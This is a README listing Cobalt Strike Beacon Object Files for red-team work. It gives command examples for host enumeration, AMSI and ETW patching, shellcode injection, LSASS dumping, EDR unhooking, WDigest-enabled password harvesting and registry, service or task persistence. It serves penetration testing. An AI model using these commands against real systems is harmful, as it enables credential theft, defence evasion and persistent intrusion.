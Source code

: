 # CobaltStrike BOF Collections
Useful Cobalt Strike Beacon Object Files (BOFs) used during red teaming and penetration testing engagements.

---
### Enumeration

- [**TrustedSec Situational Awareness BOF**](https://github.com/trustedsec/CS-Situational-Awareness-BOF)<br />
BOF that provides host enumeration and awarness commands which are more opsec friendly<br />
Example commands include:<br />
```
arp --> List arp tables
ipconfig --> Run ipconfig
ldapsearch [query]
listdns --> Pulls DNS cache
netuser [username] [opt: domain] --> Get info on user account
nslookup [hostname] --> Perform DNS query
tasklist --> Get local running processes
```

- [**Find Objects BOF**](https://github.com/outflanknl/FindObjects-BOF)<br />
Use direct system calls to enumerate processes for specific loaded modules (amsi.dll, clr.dll) or process handles (lsass.exe)<br />
Avoids fork&run<br />
```
FindModule amsi.dll
FindProcHandle lsass.exe
```

- [**BOF Collection**](https://github.com/rvrsh3ll/BOF_Collection)<br />
A set of BOFs useful for enumeration and exploitation. Examples include:<br />
```
inline-execute GetDomainInfo.o --> Get domain info from DC

inline-execute GetClipboard.o --> Prints any text on the user's clipboard

enumwifi --> Enumerate wifi connections
dumpwifi Wifi_Profile_Name --> Dump wifi cleartext credentials

bofportscan 192.168.1.10 3389 --> Port scanner

inline-execute RegistryPersistence.o Install --> Install registry persistence
inline-execute RegistryPersistence.o Remove --> Remove registry persistence
```

- [**whereami**](https://github.com/boku7/whereami)<br />
A "Where Am I" BOF which is a way to run the whoami.exe binary but in an opsec safe way by pulling the info from the current beacon process memory.<br />
Also pulls current environment variables.<br />
```whereami```

- [**RiccardoAncarani BOFs**](https://github.com/RiccardoAncarani/BOFs)<br />
A useful BOF collection to perform various tasks in a safer opsec way.
```
send_shellcode_via_pipe <pipe> <file> --> Send shellcode or any byte via a named pipe
cat <file> --> Read file, supports remote shares
wts_enum_remote_processes <host> --> Enumerate remote processes using WTS APIs
unhook <module>, unhook ntdll.dll --> Use direct syscalls to unhook APIs of a specific DLL (works only on 64-bit beacons)
```

---
### Executing .NET Assemblies

- [**InlineExecute-Assembly**](https://github.com/anthemtotheego/InlineExecute-Assembly)<br />
Perform .NET assembly execution of any .NET executable without any prior modifications required<br />
The BOF also supports several flags to disabling AMSI via in memory patching, disabling and restoring ETW via in memory patching, or customization of the CLR App Domain name to be created<br />
```inlineExecute-Assembly --dotnetassembly /home/Seatbelt.exe --assemblyargs AntiVirus AppLocker --etw --amsi --mailslot totallyLegitMailslot```

- [**inject-assembly**](https://github.com/kyleavery/inject-assembly)<br />
Another alternative .NET executable loader to inject an assembly into a running process<br />
```inject-assembly 0 /home/Rubeus.exe [args...]```

---
### Exploitation

- [**ajpc500 BOFs**](https://github.com/ajpc500/BOFs)<br />
A collection of **very** useful BOFs for various utilities including different techniques of shellcode injection with syscalls, process dumping (LSASS!), and patching ETW for better evasion.<br />
```
etw stop --> Patch etw
syscalls_inject <PID> <listener_name> / syscalls_shinject <PID> <path_to_bin> --> Syscalls shellcode injection
syscalls_spawn <listener> / syscalls_shspawn <path_to_bin> --> Spawn and syscalls injections
static_syscalls_apc_spawn <listener> / static_syscalls_apc_spawn <path_to_bin> --> Spawn and static syscalls shellcode njection (NtQueueApcThread)
static_syscalls_inject <PID> <listener_name> / static_syscalls_shinject <PID> <path_to_bin> --> Static syscalls shellcode injection (NtCreateThreadEx)
static_syscalls_dump <PID> [path_to_output] --> Process dump with syscalls (i.e. Dump LSASS!)
```

- [**MiniDumpWriteDump**](https://github.com/rookuu/BOFs)<br />
Uses static syscalls to dump a process such as LSASS to output file<br />
```minidumpwritedump <PID> <path_of_dmp?>```

- [**SilentLsassDump**](https://github.com/josephkingstone/BOFs-2/)<br />
Uses direct syscalls generated from [https://github.com/outflanknl/InlineWhispers](InlineWhispers)<br />
Dump the LSASS process via the silent process exit mechanism into the C:\Temp directory<br />
```silentLsassDump <LSASS PID>```

- [**Unhook BOF**](https://github.com/rsmudge/unhook-bof)<br />
Created by Raphael Mudge, this BOF will attempt to unhook userland APIs to bypass EDR<br />
Sort of the "hail mary" for attempting to unhook APIs<br />
 ```unhook```

- [**WdToggle**](https://github.com/outflanknl/WdToggle)<br />
Enables WDigest credential caching using direct system calls<br />
Bypasses Windows Credential Guard if enabled<br />
```
inline-execute WdToggle.o --> First enable WdDigest caching
logonpasswords --> Second, wait for users to login and then run Mimikatz to dump their newly cached cleartext passwords
```

- [**TrustedSec CS-Remote-OPs-BOF**](https://github.com/trustedsec/CS-Remote-OPs-BOF)<br />
Great repo of new BOFs from TrustedSec to follow up their SituationalAwareness BOFs.<br />
Includes dumping a process, decrypting Chrome keys, persistence techniques (registry, scheduled tasks, services), and more!
```
adcs_request --> Request an enrollment certificate
procdump --> Dump specified process to output file
reg_set --> Set/create a registry key
sc_create --> Create a new service
schtaskscreate --> Create a new scheduled task
setuserpass --> Set a users password
```

---
### Miscellaneous

- [**BOF Template**](https://github.com/Cobalt-Strike/bof_template)<br />
Used for creating your very own BOFs!
